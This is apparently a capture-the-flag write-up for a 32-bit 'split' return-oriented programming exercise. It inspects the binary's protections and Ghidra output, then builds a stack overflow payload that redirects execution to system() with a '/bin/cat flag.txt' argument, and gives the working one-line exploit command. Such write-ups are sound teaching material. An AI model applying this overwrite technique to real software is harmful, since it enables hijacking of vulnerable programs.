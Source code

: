 ### split
The problem guides has told you that same as ret2win, there is a 0x20 buffer, which can be overflowed, and there is still a syscall in a function named usefulFunction. 

But as in ret2win32, the buffer is actually 0x28 bytes.

First, check the binary security.
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
NX is enabled. Therefore, we cannot execute shellcode in stack directly. Thankful, the hint has told us that there is a syscall in function. We only need to control return address to jump to the syscall place.
Use ghidra to track the code.

There is indeed a 0x28 buffer, and indeed a syscall in function usefulFunction.

However, the syscall command is not "/bin/cat flag.txt", "but /bin/ls".
```
...
08048615 68 0e 87        PUSH       s_/bin/ls_0804870e                               = "/bin/ls"
04 08
0804861a e8 c1 fd        CALL       system                                           int system(char * __command)
ff ff
...
```
Therefore, need to modify the command in the syscall, try to push "/bin/cat flag.txt" into stack.

Use ghidra to find "/bin/cat flag.txt" in binary.
```
...
                     usefulString                                    XREF[1]:     Entry Point(*)  
0804a030 2f 62 69        ds         "/bin/cat flag.txt"
         6e 2f 63 
         61 74 20 

...
```
We find the string "/bin/cat flag.txt" in address 0x0804a030.

Because the syscall use value in stack as its argument. Therefore, the only thing we need to do is push this value into stack right after the return address(this return address should jump to syscall address, in order to execute syscall).

Then, we can construct our overflow strings.

Same as ret2win32, buffer size is 0x28, and a rbp address, so the strings should be:
```
strings = 'A'*40(40 bytes) + rbp(4 bytes) = 'A' * 44 //overflow 0x28 buffer and rbp register
```
Then, we jump to the syscall address.
```
'\x1a\x86\x04\x08' //syscall address
```
Remember, we should directly jump to call system instruction. If we jump to the instruction right before it, the argument will be modified to "/bin/ls" again.

we need to push the "/bin/cat flag.txt" address into stack, which will be used as syscall argument:
```
'\x30\xa0\x04\x08' //the value we want to push into stack, and will be used as syscall argument. 
```
The overflow string will be:
```
'A'*44 + '\x1a\x86\x04\x08' + '\x30\xa0\x04\x08'
```
Run the program with input:
```
python2 -c "print 'A'*44 + '\x1a\x86\x04\x08' + '\x30\xa0\x04\x08'" | ./split32
```
Get the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
